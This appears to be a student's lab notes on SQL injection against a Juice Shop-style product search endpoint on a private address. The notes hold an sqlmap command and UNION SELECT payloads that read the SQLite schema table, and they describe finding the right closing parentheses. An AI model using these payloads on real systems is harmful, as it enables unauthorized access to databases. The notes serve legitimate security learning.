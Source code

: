 ![](Screenshot%202025-09-18%20at%2016.25.44.png)

Running sqlmap show that the database is SQLite, common databse names are master, 
	sqlmap -u http://192.168.10.132:3000/rest/products/search?q=

![](Screenshot%202025-09-18%20at%2016.27.28.png)

The payload '), will start our query. 
/rest/products/search?q=
- ')
- UNION SELECT
- *
- FROM sqlite_schema or sqlite_master

https://sqlite.org/schematab.html
sqlite_master and sqlite_schema refer to the "schema table" that stores the schema for that database.

I stated my query as follows: 
	') UNION SELECT * FROM sqlite_schema
It doesn't work.

 After some research(watching youtube guides), I found that I needed another )
	')) UNION SELECT * FROM sqlite_schema

In Caido it looked like this. 
![](Screenshot%202025-09-18%20at%2017.04.05.png)

